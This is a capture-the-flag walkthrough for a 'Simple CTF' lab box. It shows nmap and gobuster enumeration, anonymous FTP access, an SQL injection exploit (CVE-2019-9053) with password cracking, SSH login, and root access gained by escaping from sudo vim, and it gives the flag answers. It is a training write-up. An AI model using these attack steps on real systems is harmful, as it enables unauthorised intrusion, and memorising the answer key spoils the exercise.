




# THM_Simple_CTF

---

### [Task 1] Simple CTF

- How many services are running under port 1000?

  **Solution: 2** 

  ~~~bash
  $ sudo nmap  10.10.218.172 -p1000 -sT
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:12 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.044s latency).
  
  PORT     STATE    SERVICE
  1000/tcp filtered cadlock
  
  Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
  $ sudo nmap  10.10.218.172 -p1000 -sU
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:12 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.041s latency).
  
  PORT     STATE         SERVICE
  1000/udp open|filtered ock
  
  Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
  ~~~

- What is running on the higher port?

  **Solution: ssh** 

  ~~~bash
  $ sudo nmap -sV 10.10.218.172 
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:15 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.041s latency).
  Not shown: 997 filtered ports
  PORT     STATE SERVICE VERSION
  21/tcp   open  ftp     vsftpd 3.0.3
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
  ~~~

- What's the CVE you're using against the application?

  **Solution: CVE-2019-9053** 

  ~~~bash
  $ ftp 10.10.218.172
  Connected to 10.10.218.172.
  220 (vsFTPd 3.0.3)
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> sl
  ?Invalid command
  ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
  226 Directory send OK.
  ftp> cd pub
  250 Directory successfully changed.
  ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
  226 Directory send OK.
  ftp> get ForMitch.txt
  local: ForMitch.txt remote: ForMitch.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
  226 Transfer complete.
  166 bytes received in 0.00 secs (157.8475 kB/s)
  ftp> 221 Goodbye.
  ~$ cat ForMitch.txt 
  Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
  ~~~

~~~bash
  $ gobuster dir -u 10.10.218.172 -w /usr/share/wordlists/dirb/big.txt 
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.218.172
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirb/big.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2020/10/08 16:48:06 Starting gobuster
  ===============================================================
  /.htaccess (Status: 403)
  /.htpasswd (Status: 403)
  /robots.txt (Status: 200)
  /server-status (Status: 403)
  /simple (Status: 301)
  ===============================================================
  2020/10/08 16:49:31 Finished
  ===============================================================
~~~

  

  ~~~bash
  $ searchsploit cms made simple 2.2.8
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                                                              |  Path
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  CMS Made Simple < 2.2.10 - SQL Injection                                                                                                    | php/webapps/46635.py
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ~~~

  

  

- To what kind of vulnerability is the application vulnerable?

  **Solution: Sqli**

  

- What's the password?

  **Solution: secret**

  ~~~bash
  $ ./46635.py -u http://10.10.218.172/simple/ --crack -w ./wordlist/rockyou.txt 
  [+] Salt for password found: 1dac0d92e9fa6bb2
  [+] Username found: mitch
  [+] Email found: admin@admin.com
  [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
  [+] Password cracked: secret
  ~~~

- Where can you login with the details obtained?

  **Solution: ssh**

  >*NOTE: IP has changed due to server restart*

  ~~~batch
  $ ssh mitch@10.10.255.121 -p2222
  mitch@10.10.255.121's password: 
  Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
  0 packages can be updated.
  0 updates are security updates.
  
  Last login: Thu Oct  8 21:37:47 2020 from 10.9.90.233
  $ 
  ~~~

- What's the user flag?

  **Solution: G00d j0b, keep up!**

  ~~~bash
  $ ls
  user.txt
  $ cat user.txt
  G00d j0b, keep up!
  ~~~

- Is there any other user in the home directory? What's its name?

  **Solution: sunbath**

  ~~~bash
  $ cd ..
  $ ls
  mitch  sunbath
  ~~~

- What can you leverage to spawn a privileged shell?

  **Solution: vim**

  >*Using [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)*

  ~~~bash
  												...
  ====================================( Users Information )=====================================
  [+] My user
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#users
  uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
  
  [+] Do I have PGP keys?
  
  [+] Clipboard or highlighted text?
  xsel and xclip Not Found
  
  [+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
  User mitch may run the following commands on Machine:
      (root) NOPASSWD: /usr/bin/vim
      											...
  ~~~

  ~~~bash
  $ sudo vim 
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~  
  :!id
  uid=0(root) gid=0(root) groups=0(root)
  Press ENTER or type command to continue
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~  
  :! /bin/bash
  root@Machine:~# 
  ~~~

- What can you leverage to spawn a privileged shell?

  **Solution: W3ll d0n3. You made it!**

  ~~~bash
  root@Machine:~# cd /root/
  root@Machine:/root# ls
  root.txt
  root@Machine:/root# cat root.txt 
  W3ll d0n3. You made it!
  ~~~

---

